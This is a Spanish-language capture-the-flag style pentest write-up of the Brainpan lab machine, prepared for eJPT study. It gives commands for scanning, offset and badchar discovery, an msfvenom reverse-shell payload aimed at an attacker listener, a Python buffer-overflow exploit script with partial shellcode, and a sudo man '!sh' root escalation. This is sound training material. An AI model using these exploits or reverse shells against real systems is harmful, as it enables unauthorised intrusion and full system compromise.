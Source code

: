 # Informe de Pentesting - Brainpan

**Máquina:** Brainpan
**Autor:** Klauss Reyes Granados
**Certificación:** Preparación eJPT

---

## 🎯 Objetivo

Explotar una vulnerabilidad de desbordamiento de buffer (buffer overflow) en un servicio personalizado que escucha en el puerto 9999. Esta máquina está diseñada para poner en práctica técnicas de análisis de binarios, cálculo de offset, identificación de badchars y ejecución de shellcode con una reverse shell.

---

## 🛰️ Recolección de Información

### 1. Obtener IP local:

```bash
ifconfig
```

### 2. Escaneo de red:

```bash
arp-scan -I eth0 192.1.1.0/24
```

### 3. Escaneo de puertos en el objetivo:

```bash
nmap -p- -sV -sS -Pn -n 192.1.1.5
```

Se identifican:

* Puerto 9999: Servicio TCP personalizado (binario vulnerable)

---

## 🔎 Enumeración

### Servicio personalizado - Puerto 9999

```bash
nc 192.1.1.5 9999
```

El servicio responde con un banner personalizado. Al enviar una cadena larga (por ejemplo 1000 caracteres `A`) se produce un fallo y el binario se cierra inesperadamente, lo que indica un posible desbordamiento de buffer.

---

## 💥 Explotación - Buffer Overflow

### 🧪 Paso 1: Reproducir el crash

Se envía una cadena de 1000 caracteres:

```bash
echo $(python3 -c 'print("A"*1000)') | nc 192.1.1.5 9999
```

Se confirma que el servicio se cae y se sobreescribe el registro EIP.

### 🎯 Paso 2: Cálculo del Offset

Generamos un patrón con Metasploit:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
```

Enviamos este patrón al servicio y capturamos el valor exacto que entra en EIP:

```bash
echo "<PATRÓN>" | nc 192.1.1.5 9999
```

Luego:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <valor_EIP>
```

Resultado: `Offset = 524`

### 🔎 Paso 3: Identificación de badchars

Creamos una lista de badchars del `\x01` al `\xff` (omitiendo `\x00` inicialmente) y la enviamos en ESP, monitoreando con Immunity Debugger + Mona:

```bash
!mona bytearray -b "\x00"
!mona compare -a <ESP> -f bytearray.bin
```

Se eliminan los badchars detectados (ej. `\x00`, `\x0a`, `\x0d` si corresponde).

### 💣 Paso 4: Generar shellcode

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.1.1.4 LPORT=4444 -f c -b "\x00" EXITFUNC=thread
```

### 📍 Paso 5: Localizar una instrucción JMP ESP

```bash
!mona modules
!mona find -s "\xff\xe4" -m brainpan.exe
```

Supongamos que la dirección obtenida es: `0x311712F3`

### 🧪 Paso 6: Script de explotación final

```python
#!/usr/bin/python3
import socket
from struct import pack

ip = "192.1.1.5"
port = 9999

# Offset determinado
offset = 524

# Dirección JMP ESP encontrada
eip = pack("<I", 0x311712F3)

# NOP sled + shellcode (incompleto por brevedad)
shellcode =  b"\x90" * 16
shellcode += (
    b"\xdb\xd6\xd9\x74\x24\xf4\x5f\x2b\xc9\xb1\x52\xbe\xf9\x7a\xcd\x45"
    b"... (tu shellcode generado) ..."
)

payload = b"A" * offset + eip + shellcode

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send(payload)
s.close()
```

---

## ⬆️ Escalado de Privilegios

Una vez obtenida la reverse shell:

### Revisar privilegios sudo:

```bash
sudo -l
```

Se descubre que el binario `/home/anansi/bin/anansi_util` se puede ejecutar como root sin contraseña:

```bash
sudo /home/anansi/bin/anansi_util manual man
```

Utilizando técnicas de breakout de comandos `man`, se escapa a shell root:

* En el visor `man`, presionar `!sh`

---

## ✅ Conclusiones

* El binario en el puerto 9999 contiene una vulnerabilidad de desbordamiento de buffer explotable remotamente.
* Se logró ejecutar una reverse shell con `msfvenom`, saltando al shellcode mediante `JMP ESP`.
* Posteriormente se consiguió acceso root explotando un binario con `sudo` vulnerable.

> Una máquina excelente para practicar Buffer Overflow realista, explotación en Windows y técnicas de escalada en Linux.
